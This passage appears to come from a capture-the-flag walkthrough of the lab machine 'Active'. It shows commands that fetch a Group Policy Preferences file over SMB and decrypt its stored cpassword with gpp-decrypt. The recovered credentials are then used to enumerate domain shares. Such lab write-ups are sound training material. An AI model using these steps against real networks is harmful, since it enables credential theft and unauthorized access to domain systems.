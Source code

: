 This file seems like it could contain useful information, so we'll download it to our local kali machine.

```default
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as Groups.xml (2.6 KiloBytes/sec) (average 2.6 KiloBytes/sec)
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> 
```



# Obtaining Credentials

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Upon further inspection, we can see that the downloaded file is in fact a group policy preferences file. This XML file contains two vital pieces of information. The first is the variable `userName` which gives us a domain account by the name of `active.htb\SVC_TGS`. The second is the variable `cpassword` which contains what appears to be an encrypted password for the previously mentioned user. While the password may be encrypted, it is encrypted with a well known key. This means as an attacker we can easily decrypt the password. To do this, we will be using a tool called `gpp-decrypt`. 

## Decrypting the Password using `gpp-decrypt`

```default
kali@kali:~/Documents/CTF/HTB/Machines/Active$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
kali@kali:~/Documents/CTF/HTB/Machines/Active$ 
```


## Obtaining the User Flag

With that we now have a set of credentials (active.htb\\SVC_TGS:GPPstillStandingStrong2k18). If we run smbmap again but with the previously found credentials, we find that we now have read access to all the non-standard shares.

```default
kali@kali:~/Documents/CTF/HTB/Machines/Active$ smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.10.10.100
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
kali@kali:~/Documents/CTF/HTB/Machines/Active$ 
```
